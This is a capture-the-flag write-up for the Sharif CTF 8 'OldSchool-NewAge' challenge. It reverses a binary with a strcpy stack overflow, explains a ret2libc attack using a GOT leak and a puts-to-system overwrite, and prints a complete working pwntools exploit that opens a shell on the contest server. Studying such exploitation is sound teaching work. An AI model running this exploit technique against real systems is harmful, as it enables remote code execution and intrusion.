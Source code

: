 # __Sharif CTF 8__ 
## _OldSchool-NewAge_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Reverse | 75 | merrychap

**Description:** 

> It all started with a leak bang
nc ctf.sharif.edu 4801
Alternative: nc 213.233.161.38 4801

## Solution
### Binary recon
We are given [vuln4](./vuln4) binary and [libc.so.6](./libc.so.6). Let's take a look into the binary. After some reversing we get the next code:
```c
int copy_it(char *s1)
{
  char s2;

  strcpy(&s2, s1);
  return 0;
}

int main(int argc, const char **argv, const char **envp) {
  char s;

  puts("This time it is randomized...");
  puts("You should find puts yourself");
  fflush(stdout);
  fgets(&s, 200, stdin);
  copy_it(&s);
  puts("done!");
  return 0;
}
```
That's all binary. The most interesting function here is ```copy_it``` function. If we see this function in assembly and understand how much stack is allocated for local variables, then we will understand what to do next. 

<p align="center">
  <img src="screens/copy_it_asm.png">
</p>


### Finding the vulnerability
```asm
sub     esp, 18h
sub     esp, 8
```
Taking into account that we input 200 characters in ```s1```, then it's obvious that here is an easy buffer overflow. Alright, we can overflow ```RET``` of ```copy_it``` function, but what should we do next? How do we get the shell? 

### Exploitation of the binary
The idea is to make **```ret2libc```** attack. To make this, we have to leak a libc address. If we change the flow of the binary after overwriting ```RET``` into first ```puts``` function, making address of GOT as an argument for this ```puts```, then we leak a libc address. Pretty.

This overwriting gives us a chance to input characters one more time. Knowing libc address and the fact that argument for ```fgets``` lays right before ```RET``` address of ```copy_it``` on a stack (just debug and you will see it), then we can write into GOT entry.

Let's write address of calculated ```system``` into ```puts``` entry in GOT, then the last ```puts``` will give us the shell.


### Exploit
You can look at [exploit.py](./exploit.py) or look at just code below:

```python
import struct

from pwn import *


def to_n(addr):
    return struct.unpack('I', addr)[0]


def to_addr(n):
    return struct.pack('I', n)


def main():
    libc = ELF('./libc.so.6')
    
    binsh = to_addr(list(libc.search('/bin/sh'))[0])

    fgets      = '\x3e\x85\x04\x08'
    puts_addr  = '\x03\x85\x04\x08'
    puts_got   = '\x74\x98\x04\x08'
    fflush_got = '\x68\x98\x04\x08'

    pc = remote('ctf.sharif.edu', 4801)

    # puts_got here is argument for the next fgets.
    pc.sendline('AAAAAAAAAAAAAAAAAA' + puts_got + puts_addr + fflush_got)

    print(repr(pc.recvline()))
    print(repr(pc.recvline()))
    
    libc_base = to_n(pc.recvline()[:4]) - libc.symbols['fflush']
    binsh     = to_addr(to_n(binsh) + libc_base)
    system    = to_addr(libc_base + libc.symbols['system'])
    
    print('System address:  ' + hex(to_n(system)))
    print('/bin/sh address: ' + hex(to_n(binsh)))

    # BBBB is RET address of system and binsh is the first argument
    pc.sendline('AAAAAAAAAAAAAAAAAAAAAA' + system + 'BBBB' + binsh)

    pc.interactive()

if __name__ == '__main__':
    main()
```

### Flag

<p align="center">
  <img src="screens/flag.png">
</p>

So, the flag is:
> SharifCTF{7af9dab81dff481772609b97492d6899}